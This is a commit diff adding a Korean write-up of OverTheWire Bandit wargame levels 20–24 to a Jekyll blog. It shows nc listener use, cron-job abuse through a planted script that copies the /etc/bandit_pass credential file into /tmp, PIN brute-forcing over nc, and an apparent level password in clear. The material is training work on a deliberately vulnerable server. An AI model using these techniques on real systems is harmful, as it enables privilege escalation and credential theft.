

Before and after one commit to ms-axd/ms-axd.github.io, a Jekyll site: the page built from _posts/2026-04-16-bandit20.md, in a window 1280 px wide and 1400 px high, scrolled down 3052 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
bandit20..

````diff
--- a/_posts/2026-04-16-bandit20.md
+++ b/_posts/2026-04-16-bandit20.md
@@ -8,3 +8,157 @@
 ---
 
 ## Bandit20
+
+![alt text](/assets/images/bandit/image-48.png)
+
+`setuid` 바이너리가 `localhost:suconnect` 포트에 연결하고 `password` 전송하고 응답 받기
+
+이번 문제는 터미널을 2개 열어야 한다
+
+아까 `telnet` `nc` 비교 해놨죠?
+
+`nc` 에는 서버 모드가 있습니다.
+
+터미널1에는 `nc -lp 9999` 과 `password` 전송해놓고
+
+터미널2에는 `./suconnect 9999` 를 보내면
+
+![alt text](/assets/images/bandit/image-49.png)
+
+![alt text](/assets/images/bandit/image-50.png)
+
+짜잔
+
+## Bandit21
+
+![alt text](/assets/images/bandit/image-51.png)
+
+`cron job` 분석 !
+
+여기도 문제 설명에 나와있죠??
+
+`/etc/cron.d` 를 찾아봅시다
+
+![alt text](/assets/images/bandit/image-52.png)
+
+지금 21이니까 `cronjob_bandit22` 확인해보면 되겠죠
+
+```bash
+bandit21@bandit:/etc/cron.d$ cat cronjob_bandit22
+@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
+* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
+```
+
+저 파일을 쓰레기통에 버린다고 되있네요
+
+뭔지 함 보자
+
+![alt text](/assets/images/bandit/image-53.png)
+
+## Bandit22
+
+![alt text](/assets/images/bandit/image-54.png)
+
+이번 문제도 `cron`
+
+확인해봅시다
+
+![alt text](/assets/images/bandit/image-55.png)
+
+코드 보니까 `mytarget`을 얻어야 하네요
+
+코드 그대로 긁어와서 `bandit23` 만 넣어주고
+
+```bash
+echo I am user bandit23 | md5sum | cut -d ' ' -f 1
+```
+
+![alt text](/assets/images/bandit/image-56.png)
+
+## Bandit23
+
+![alt text](/assets/images/bandit/image-57.png)
+
+또 `cron`
+
+한번 확인해보자
+
+![alt text](/assets/images/bandit/image-58.png)
+
+```bash
+#!/bin/bash
+myname=$(whoami) # 실행 주체: bandit24
+cd /var/spool/"$myname"/foo || exit
+
+for i in * .*; do
+    if [ "$i" != "." ] && [ "$i" != ".." ]; then
+        owner="$(stat --format "%U" "./$i")"
+        # 파일 소유자가 bandit23(나)이면 실행!
+        if [ "${owner}" = "bandit23" ] && [ -f "$i" ]; then
+            timeout -s 9 60 "./$i"
+        fi
+        rm -rf "./$i" # 실행 후 즉시 삭제
+    fi
+done
+
+```
+
+`bandit24` 권한으로 실행되는 스크립트가 `/var/spool/bandit24/foo` 안의 파일을 무조건 실행
+
+내가 파일 만들어서 저 폴더 안에 넣으면 실행되겠네?
+
+![alt text](/assets/images/bandit/image-59.png)
+
+/tmp 에 폴더 만들고 `777` 권한 다 줘버리기
+
+```bash
+#!/bin/bash
+cat /etc/bandit_pass/bandit24 > /tmp/qlqjs/qlqjs.txt
+```
+
+![alt text](/assets/images/bandit/image-60.png)
+
+파일명 `.sh` 로 바꿔주고 보냈는데 몇분 지나도 안오노 ;;
+
+파일에 권한을 안줬네 ㅎ
+
+권한 주고 다시 보내버리고 조금 기다리면 파일이 생긴다
+
+![alt text](/assets/images/bandit/image-61.png)
+
+## Bandit24
+
+![alt text](/assets/images/bandit/image-62.png)
+
+이번 문제는 `bruteforce`로 4자리 PIN 찾기 `localhost:30002`
+
+`30002` 포트에 접속해서 `bandit24` 의 `pw` 와 4자리 `pin` 코드를 한 줄에 같이 보내야 한다
+
+일단 `list`를 만들자
+
+```bash
+for i in {0000..9999}; do
+    echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> list.txt
+done
+```
+
+하고
+
+./pin 하면 list.txt가 생긴다
+
+```bash
+cat list.txt | nc localhost 30002
+```
+
+했는데 어우 `Wrong`
+
+![alt text](/assets/images/bandit/image-63.png)
+
+치워버리자
+
+```bash
+cat list.txt | nc localhost 30002 | grep -v "Wrong!"
+# -v 옵션은 해당 문자열이 포함되지 않은 줄만 보여준다
+```
+
+![alt text](/assets/images/bandit/image-64.png)
````
Also changed, not shown: _posts/2026-04-16-bandit10.md (+5 -4 lines), assets/images/bandit/image-48.png (added), assets/images/bandit/image-49.png (added), assets/images/bandit/image-50.png (added), assets/images/bandit/image-51.png (added), assets/images/bandit/image-52.png (added), assets/images/bandit/image-53.png (added), assets/images/bandit/image-54.png (added), assets/images/bandit/image-55.png (added), assets/images/bandit/image-56.png (added), assets/images/bandit/image-57.png (added), assets/images/bandit/image-58.png (added), assets/images/bandit/image-59.png (added), assets/images/bandit/image-60.png (added), 4 more files.
